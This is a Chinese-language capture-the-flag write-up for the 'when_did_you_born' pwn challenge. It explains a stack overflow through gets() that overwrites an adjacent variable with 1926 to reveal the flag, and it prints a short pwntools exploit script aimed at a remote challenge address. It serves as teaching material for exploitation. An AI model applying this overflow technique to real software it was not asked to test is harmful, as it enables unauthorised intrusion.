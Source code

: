 # 攻防世界: when_did_you_born

## **[目标]**
Variables overriding

## **[环境]**
Ubuntu

## **[工具]**
gdb、objdump、python、pwntools, IDA

## **[过程分析]**

- 运行一下程序：


![](./pic/1.png)
- 在ida中查看一下：


![](./pic/2.png)
- 思路：可以看到 当生日是1926年的时候就会输出flag，但是程序对1926做了过滤，直接输入1926 程序就会结束。 同时，我们发现，v5和v4是在栈上的数据，接收name的gets函数不限制输入长度，于是 就可以在输入v4的时候覆盖掉之前我们输入的v5。那如何 判断 v4和v5 的相对位置呢？ ida在反汇编的伪代码中，标注了局部变量在栈中的位置，看红色箭头处，就能发现 v4和v5相差8个字节。这样我们就可以构造payload。

```
payload = "A"*8 + p32(1926)
```
完整的exp:

```
from pwn import *

#p = process("./when_did_you_born")
p = remote('10.10.49.194', 30149)

p.sendlineafter("Birth?\n",str(1998))

payload = "A"*8 + p32(1926)

p.sendlineafter("Name?\n",payload)

print p.recvall()

```

## **[参考阅读]**

[一步一步学习rop-x64](https://segmentfault.com/a/1190000007406442)

[一步一步学习rop-x86](https://segmentfault.com/a/1190000005888964)

[gdb的简单用法](https://blog.csdn.net/ll352071639/article/details/42304619)

[gdb查看内存命令](https://blog.csdn.net/yasi_xi/article/details/9263955)



